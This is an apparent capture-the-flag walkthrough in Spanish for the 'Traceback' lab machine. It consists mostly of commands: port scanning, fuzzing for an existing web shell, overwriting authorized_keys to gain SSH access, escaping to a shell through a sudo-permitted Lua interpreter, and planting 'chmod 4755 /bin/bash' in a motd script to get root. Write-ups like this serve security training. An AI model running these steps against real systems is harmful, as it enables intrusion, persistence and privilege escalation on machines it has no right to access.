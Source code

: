 # Traceback

ping: 10.10.10.181

## Ver si esta activa
❯ ping -c 1 10.10.10.181 
PING 10.10.10.181 (10.10.10.181) 56(84) bytes of data.
64 bytes from 10.10.10.181: icmp_seq=1 ttl=63 time=37.5 ms

--- 10.10.10.181 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 37.462/37.462/37.462/0.000 ms


## Escaneo de puertos

nmap -p- --open -T5 -v -n 10.10.10.181 -oN allPorts 
nmap -sC -sV -p22,80 10.10.10.181 -oN targetedPorts


## Informacion web
whatweb http://10.10.10.181

nmap --script http-enum -p80 10.10.10.181 -oN webScan

Desde el navegador miramos si hay robots.txt
CTRL+U para ver el codigo fuente de la pagina
Buscar en google el comentario

curl -s "https://github.com/TheBinitGhimire/Web-Shells" | html2text | grep -oP '^\w.*\.-php$' > wqbShells_path

wfuzz -c --hc=404 -w wqbShells_path http://10.10.10.181/FUZZ

## Entramos con el resultado

webadmin y buscamos ssh
borramos authorized_keys
ssh-keygen --> sin pass
mv id_rsa.pub authorized_keys
Subimos la ssh

ssh webadmin@10.10.10.181
whoami
ls
cat note.txt
id
sudo -l
sudo -u sysadmin/home/sysadmin/luvit

gtfobins.github.io --> buscar LUA

os.execute("/bin/bash")
whoami
cd /home
cd /sysadmin
ls
head -c 18 user.txt; echo
cd /root

## Escalada privilegios
ls -lha
cat .bash_history
uname -a
lsb_release -a 
grep -r -i "OWNED BY XH4H" 2>/dev/null
find . \-group sysadmin 2>/dev/null | grep -v "proc"
cat /etc/update-motd.d/00
grep -r -i "Wellcome to Xh4H land" 2>/dev/null
añadimos al script --> chmod 4755 /bin/bash
exit
ssh sysadmin@10.10.10.181
ls -l /bin/bash
bash -p --> ganar privilegios
whoami
cd /root


